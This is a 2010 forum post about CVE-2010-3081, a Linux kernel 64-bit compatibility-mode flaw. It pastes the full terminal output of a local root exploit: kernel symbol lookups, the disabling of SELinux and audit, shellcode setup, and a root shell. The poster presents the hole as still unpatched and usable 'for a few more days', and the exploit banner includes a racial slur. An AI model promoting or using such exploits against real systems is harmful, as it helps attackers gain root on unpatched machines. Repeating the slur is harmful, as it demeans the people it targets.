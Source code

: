## 64-bit Compatibility Mode Stack Pointer Underflow
Posted by **Automated Penguin** on Fri September 17th, 2010 03:02:24 PM

<!-- m --><a class="postlink" href="https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2010-3081">https://bugzilla.redhat.com/show_bug.cg ... -2010-3081</a><!-- m -->

hasn't been patched yet, might be good for a few more days.

Works on most recent 64 bit builds.

[cbock@eecad1 ~]$ ./hax.out
Ac1dB1tCh3z VS Linux kernel 2.6 kernel 0d4y
$$$ Kallsyms +r	
$$$ K3rn3l r3l3as3: 2.6.18-194.8.1.el5
??? Trying the F0PPPPPPPPPPPPPPPPpppppppppp_____ m3th34d
$$$ L00k1ng f0r kn0wn t4rg3tz.. 
$$$ c0mput3r 1z aqu1r1ng n3w t4rg3t...
$$$ selinux_ops-&gt;ffffffff80327ac0
$$$ dummy_security_ops-&gt;ffffffff804b9540
$$$ capability_ops-&gt;ffffffff80329380
$$$ selinux_enforcing-&gt;ffffffff804bc2a0
$$$ audit_enabled-&gt;ffffffff804a7124
$$$ Bu1ld1ng r1ngzer0c00l sh3llc0d3 - F0PZzzZzZZ/LSD(M) m3th34d
$$$ Prepare: m0rn1ng w0rk0ut b1tch3z
$$$ Us1ng st4nd4rd s3ash3llz
$$$ 0p3n1ng th3 m4giq p0rt4l
$$$ bl1ng bl1ng n1gg4 <!-- s:P --><img src="{SMILIES_PATH}/icon_razz.gif" alt=":P" title="Razz" /><!-- s:P -->ppPpPPpPPPpP
sh-3.2# echo $UID
0

FYI
